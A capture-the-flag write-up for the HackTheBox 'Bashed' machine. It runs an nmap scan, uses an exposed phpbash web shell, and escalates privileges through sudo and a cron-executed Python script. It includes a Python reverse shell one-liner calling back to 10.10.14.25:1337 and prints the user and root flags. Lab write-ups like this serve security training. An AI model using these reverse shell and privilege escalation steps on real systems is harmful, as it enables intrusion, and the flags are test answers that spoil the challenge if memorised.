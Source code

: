 # Bashed

> Write-up author: jon-brandy
 
## STEPS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/06d890ab-a95a-4c82-bc6f-c774d0792714)

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.68 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 02:31 PDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.68
Host is up (0.019s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds
```

1. Based from the result, the machine is running a web application.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bda28df5-de80-4de6-aff5-d6e891c3015e)


2. Found an interesting directory --> `/dev` which leads to a file named `phpbash.php`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29cabec6-e47c-4ed4-90d5-fd801b6dd53d)

 
3. Why it's interesting, because the webpage documented about it, and based from the documentation it gives us a shell.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02196f2f-b47e-4490-8a0a-275115c0bb24)


> GITHUB DOCUMENTATION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7329fd1-1c43-40c2-8020-5c5ced9658f6)


4. So, opening the phpbash.php file will give us a shell.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/37acbeb0-1408-4712-8884-e985d34e4f54)


> GETTING USER FLAG

```
www-data@bashed
:/home# cd arrexel

www-data@bashed
:/home/arrexel# ls

user.txt
www-data@bashed
:/home/arrexel# cat user.txt

9d72b1d760c30a335315b4c35a83d8f5
```

## USER FLAG

```
9d72b1d760c30a335315b4c35a83d8f5
```

5. To get the root flag, obviously we need to do privesc.
6. Let's see are there any sudo permissions for `www-data`.

> RESULT

```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

7. Interesting, we can run any command as scriptmanager.
8. Well to use the sudoers permission, we need to do reverse shell, i used this reverse shell payload template:

```py
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

9. Set a listener at port 1337 then run the script at the webshell.

> RESULT - We got shell.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/130ccffa-a05c-4638-b602-ae05aae78ec3)


10. Now we can run the sudo permission.

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.68] 38330
$ whoami
whoami
www-data
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/var/www/html/dev$ whoami    
whoami
scriptmanager
scriptmanager@bashed:/var/www/html/dev$
```

> Found 2 interesting files.

```
scriptmanager@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ 
```

11. At glance there's no vulnerability at all, but what's interesting here is the .txt file's timestamp keeps updating everytime.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ee6646e-0ef2-478f-82d7-fe0d81737f21)


12. Knowing this, my assumption is the test.py is executed every minute (there is a cron job or any background process that runs the python script automatically.

### FLOW

```
1. Creating a fake test.py which has our reverse shell payload.
2. Run python http.server.
3. Then run wget on our reverse shell to grab the fake test.py from our local machine.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5c83800-5da1-44ca-8d2c-e2675c392093)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b8fa0fd0-dff6-4d73-a607-88f8d585f743)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/180b8ea3-07e7-437f-b6c9-3c2ace516176)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b35da8d-633e-4349-9dc8-506fd9b93d30)


## ROOT FLAG

```
b1f52542e66c5b9aa0c7f33be686b63a
```
